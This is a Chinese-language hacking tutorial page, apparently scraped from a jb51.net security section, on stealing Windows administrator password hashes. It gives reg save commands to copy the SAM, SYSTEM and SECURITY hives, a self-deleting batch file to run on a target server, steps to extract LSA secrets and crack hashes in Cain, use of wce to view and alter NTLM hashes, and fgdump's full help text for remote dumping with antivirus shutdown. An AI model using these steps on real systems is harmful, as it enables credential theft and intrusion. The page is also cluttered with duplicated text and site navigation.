 ```yaml
---
layout: post
title: CAIN  
tags: CAIN
categories: Kali
---
```



## CAIN



打开CAIN选择LSA Secrets然后打开system.hive 和security.hive两个文件




加载后我们可以看到一些信息，这些信息可能会有明文密码，我这里是没有的。

如果没有我们就需要抓HASH了。点击CAIN的Cracker选项卡，加载sam.hive文件


拿到HASH了，www.jb51.net 下面就是破解，用工具自带的破解试试密码出来了，我设置的123456


•			脚本之家
•			软件下载
•			源码下载
•			在线工具
•			网页教程基础
•			服务器常用软件
•			手机版
•			  
关注微信

•	topNav End
￼


导航
•			网页制作
•			网络编程
•			脚本专栏
•			脚本下载
•			数据库
•			CMS教程
•			电子书籍
•			平面设计
•			媒体动画
•			操作系统
•			网站运营
•			网络安全
•			在线手册
导航结束
您的位置： 主页 \> 网络安全 \> 黑客教程 \>

•	head End
•	
•	content Star
抓取管理员hash值（哈希）的另类方法
作者：佚名 字体：[增加 减小]() 来源：互联网 时间：05-11 10:44:12 我要评论
哈希算法将任意长度的二进制值映射为固定长度的较小二进制值，这个小的二进制值称为哈希值。哈希值是一段数据唯一且极其紧凑的数值表示形式。如果散列一段明文而且哪怕只更改该段落的一个字母，随后的哈希都将产生不同的值。要找到散列为同一个值的两个不同的输入，在计


今天抓hash的时候发现GetHashes.exe不好使..另外又测试了几个也都不好用... 
不同版本的Windows的hash获取方法不一样.
用到的工具有pwdump7.exe、GetHashes.exe、SAMInside.exe、LC5、Cain、Proactive Password Auditor、Ophcrack.
 于是百度了一些资料穿上来！希望大家能学习一下。
 ====================================第1种===========================================
 使用工具 cain、cmd、wce1.2等
 首先使用通用方法抓取HASH
 使用命令先保存一份需要的信息。
 reg save hklm\sam sam.hive
 reg save hklm\system system.hive
 reg save hklm\security security.hive
 （这三个文件我找了个批处理,这样比较方便）
 ==========================
 @echo off
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
del %0
 ===========================
 保存为批处理文件,直接在服务器上运行。
 就会在批处理所在目录生成这三个文件
 和下面的效果一样，只不过简化了步骤
￼
然后我们使用CAIN打开保存到的system.hive 和security.hive两个文件。我是在虚拟机里面操作就直接在虚拟机里面搞了。。大家在服务器上搞可以下载到本地。
 打开CAIN选择LSA Secrets然后打开system.hive 和security.hive两个文件

加载后我们可以看到一些信息，这些信息可能会有明文密码，我这里是没有的。
￼
如果没有我们就需要抓HASH了。点击CAIN的Cracker选项卡，加载sam.hive文件。
￼

拿到HASH了，www.jb51.net 下面就是破解，用工具自带的破解试试密码出来了，我设置的123456
￼
我们也可以使用彩虹表来破解
下面我们使用wce来搞。。这个工具是渗透利器哈具体介绍大家自己百度去。
￼
从帮助来看我们可以使用-l参数查看NTML hash
 我们还可以用-s参数来改HASH值如图
￼
从图中我们可以看到最后一位的HASH我从4修改到了5

====================================第2种===========================================
fgdump 可以远程抓Hash的工具
 作者：TheLostMind
一直都是本地抓，今天上SamInside论坛看到一个开源的工具，fgdump，可以远程抓。
 http://swamp.foofus.net/fizzgig/fgdump/fgdump-usage.htm
 fgDump 2.1.0 - fizzgig and the mighty group at foofus.net
Written to make j0m0kun's life just a bit easier
Copyright(C) 2008 fizzgig and foofus.net
fgdump comes with ABSOLUTELY NO WARRANTY!
This is free software, and you are welcome to redistribute it
under certain conditions; see the COPYING and README files for
more information.
Usage:
fgdump [-?]()[-t]()[-c]()[-w]()[-s]()[-r]()[-v]()[-k]()[-o]()[-a]()[-O 32|64]()[-l logfile]()[-T threads]() [{{-h Host | -f filename} -u Username -p Password | -H filename}]()
where Username and Password have administrator credentials
-? displays help (you're looking at it!)
-t will test for the presence of antivirus without actually running the password dumps
-c skips the cache dump
-w skips the password dump
-s performs the protected storage dump
-r forgets about existing pwdump/cachedump files. The default behavior is to skip a host if these files already exist.
-v makes output more verbose. Use twice for greater effect
-k keeps the pwdump/cachedump going even if antivirus is in an unknown state
-l logs all output to logfile
-T runs fgdump with the specified number of parallel threads
-h is the name of the single host to perform the dumps against
-f reads hosts from a line-separated file
-H reads host:username:password from a line-separated file (per-host credentials)
-o skips pwdump history dumps
-a will not attempt to detect or shut down antivirus, even if it is present
 -O manually sets whether the target is a 32- or 64-bit OS. Note that this applies to all hosts specified.
** As of version 1.4.0, you can run fgdump with no parameters to dump the local box (no impersonation or binding)
测试了一下，很不错，简单翻译了一下帮助。
 用法:
fgdump [-?]()[-t]()[-c]()[-w]()[-s]()[-r]()[-v]()[-k]()[-o]()[-a]()[-O 32|64]()[-l logfile]()[-T threads]() [{{-h Host | -f filename} -u
]() Username -p Password | -H filename}]
 用户名和密码要求要有管理员资格
 -? 显示帮助
-t 测试当前的杀毒软件，并不是真正的转储密码
-c 跳过缓存转储
-w 跳过密码转储
-s 执行保护存贮转储
-r 忽略现存的pwdump/cachedump文件。默认的行为是跳过存在这些文件的主机。
-v 详细输出. 使用两次能获得更为详细的输出
-k 即使不知道杀毒软件的状态也继续执行pwdump/cachedump（进行密码转储）
-l 记录所有输出到日志文件
-T 使用指定数量的线程执行此程序
-h 需要执行密码转储的单个目标主机
-f 从用行分隔的文件中读取主机列表
-H 从用行分隔的文件中读取 主机名:用户名:密码
-o 跳过转储历史密码
-a 试图检测或关闭杀毒软件，即使杀毒软件正在运行
 -O 手工设置远程主机是32位操作系统还是64位操作系统。 注意：这项操作应用到所有指定的主机。
 ** 使用1.4.0,你可以直接运行此程序，不需要带参数，来转储本机密码
endmain


Tag：Hash  
相关文章
•			2016-02-15  
浅析XSS与XSSI异同
•			2016-02-01  
Android平台的SQL注入漏洞浅析(一条短信控制你的手机)
•			2016-02-01  
黑客七大惯用攻击策略(攻击与防范)
•			2016-01-27  
XSS跨站脚本攻击问题和原理详解
•			2016-01-20  
剖析DDoS攻击原理
•			2016-01-19  
防止xss攻击的有效方法
•			2015-12-17  
ARP欺骗原理以及路由器的先天免疫
•			2015-12-14  
防止CSRF攻击ASP.NET应用
•			2015-11-10  
比特币偷窃程序Dyreza的实现思路分析
•			2015-11-05  
CCProxy代理软件中隐藏的阴谋分析
•			2015-10-29  
管理员需知的DDOS攻击防御手册
•			2015-10-29  
高手轻松教你如何针对DDos部署防御措施

评论(0人参与，0条评论)

￼
放置cbox初始状态
展开状态
来说两句吧...
•			
•			  
  
  

表情 上传图片 uploading-efw
发布


放置cbox发布状态 用户登录
•			微博登录   

•			QQ登录   

•			手机登录   

提示条 零评论提示条
还没有评论，快来抢沙发吧！
评论列表 S
最新评论

评论列表 E
评论关闭 翻页

某站正在使用畅言
Powered by 畅言
•			
endborder
end fl

文章分类
•			黑客教程 安全设置 杀毒防毒 病毒查杀 脚本攻防 黑客入侵 工具使用 业界动态 Exploit 漏洞分析 加密解密 手机黑客 安全其它 

大家感兴趣的内容
•			1  
怎么盗别人的qq密码 新手指南
•			2  
最经典的黑客入门教程(必备技能)
•			3  
零距离感受入侵服务器 
•			4  
菜鸟拿WebShell的经验 
•			5  
局域网入侵完全版
•			6  
webshell 提权方法 服务器提权教程
•			7  
黑客基础知识 常用命令和快捷键大全
•			8  
网页挂马详细步骤教程
•			9  
网页挂马方法和技巧大汇总
•			10  
服务器 提权方法大全

最近更新的内容
•			浅析XSS与XSSI异同
•			Android平台的SQL注入漏洞浅析(一条短信控制你的手机)
•			黑客七大惯用攻击策略(攻击与防范)
•			XSS跨站脚本攻击问题和原理详解
•			剖析DDoS攻击原理
•			防止xss攻击的有效方法
•			ARP欺骗原理以及路由器的先天免疫
•			防止CSRF攻击ASP.NET应用
•			比特币偷窃程序Dyreza的实现思路分析
•			CCProxy代理软件中隐藏的阴谋分析



end fr
•	end content
关于我们 - 广告合作 - 联系我们 - 免责声明 - 网站地图 - 投诉建议 - 在线投稿
©CopyRight 2006-2016 JB51.Net Inc All Rights Reserved. 脚本之家 版权所有

